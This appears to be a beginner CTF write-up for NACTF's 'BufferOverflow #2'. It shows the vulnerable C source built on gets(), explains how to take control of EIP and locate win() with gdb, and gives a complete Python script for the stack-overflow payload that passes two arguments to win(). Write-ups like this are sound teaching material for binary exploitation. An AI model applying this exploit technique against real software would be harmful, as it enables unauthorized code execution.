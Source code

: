 ```yaml
---
layout: post
title: BufferOverflow-#2 
tags: [Binary Exploitation]
comments: true
---
```


This is a writeup on how i solved **BufferOverflow #2** from NACTF. I hope this will help beginners in binary exploitation while doing ctfs. This is a Beginner level challenge.

**CTF : https://www.nactf.com/**

#### Lets start..

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.1.png)

Download the binary to our system, make it executable and run the binary.

Like the previous challeneg, this binary is also just printing the input back to us, behaving like a echo program.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.2.png)

Lets analyse the source code of this binary to know how it is working.

Here is the source code:
~~~
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
    if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
    {
        puts("Close, but not quite.");
        exit(1);
    }
    printf("You win!\n");
    char buf[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
    }
    else
    {
        fgets(buf, sizeof(buf), f);
        printf("flag: %s\n", buf);
    }
}
void vuln()
{
    char buf[16];
    printf("Type something>");
    gets(buf);
    printf("You typed %s!\n", buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
~~~
From source code it is clear that we have to do the way we did for BufferOverflow #1 but we have to pass 2 arguments to win() function.

The function is checking the arguments we passed, we will get flag only after we pass the arguments in corrrect way.

But important thing is to note is the type of arg1 which is long long, which is 8 byte long.

Check more about 'C' data types.

So

arg1 =  0x0000000014B4DA55

arg2 =  0xF00DB4BE

Lets do it.

Like before first step is to controll eip register. I was managed to control eip register as you can see on the below image.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.3.png)

So now we controlled eip, controlled eip with 4 B's (BBBB=0X42424242).

Next step is to find the address of win() function and overwrite eip with that so win() function will get executed.

On  GDB type **disas win** and take the starting address of win() function.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.4.png)

adress of win() = 0x080491c2

Now we can craft our payload...

**payload = "A"*28 + address_of_win() +dummy_return + arg1 + arg2**

Create a file called exploit.py with the below contents.

exploit.py:
~~~
buffer = ""

#junk data
buffer += "A"*28 

#address of win() 0x080491c2
buffer += "\xc2\x91\x04\x08"

#dummy return address 0xf7e0b7a0
buffer += "\xa0\xb7\xe0\xf7"

#arg1 0x0000000014B4DA55
buffer += "\x55\xda\xb4\x14\x00\x00\x00\x00"

#arg2 0xF00DB4BE
buffer += "\xbe\xb4\x0d\xf0"

print buffer 
~~~

Lets do the final thing....

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.5.png)

So it is done.

Lets do it in the remote server...

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.6.png)

We got the flaaaaag ...    :)
